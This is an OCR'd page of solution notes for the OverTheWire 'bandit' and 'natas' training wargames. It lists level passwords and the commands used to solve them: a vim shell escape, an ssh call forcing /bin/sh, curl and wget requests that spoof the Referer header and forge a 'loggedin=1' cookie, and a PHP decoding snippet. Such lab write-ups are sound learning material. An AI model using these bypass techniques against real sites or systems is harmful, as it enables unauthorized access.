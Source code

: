     -----END RSA PRIVATE KEY——

18 kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd

    ssh  -l bandit18 bandit.labs.overthewire.org -t /bin/sh

19 IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x

20 GbKksEFF4yrVs6il55v6gwY5aVje5f0j

21 gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr

22 Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI

23 jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

24 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

25 uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

    v
    :r file
    :set shell sh=/bin/bash
    :sh

26 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z


## natas

>http://natas5.natas.labs.overthewire.org/


1 gtVrDuiDfck831PqWsLEZy5gyDz1clto
2 ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
3 sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
4 Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

    curl -isu natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ natas4.natas.labs.overthewire.org --referer "http://natas5.natas.labs.overthewire.org/"

    wget http://natas4.natas.labs.overthewire.org/ --user natas4 --password Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer="http://natas5.natas.labs.overthewire.org/"

5 iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq


    curl -isu natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq natas5.natas.labs.overthewire.org|grep -i cookie

    curl -isu natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq natas5.natas.labs.overthewire.org --cookie "loggedin=1"

6 aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

7 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

8 DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

```php
    <?
    echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
    ?>
```
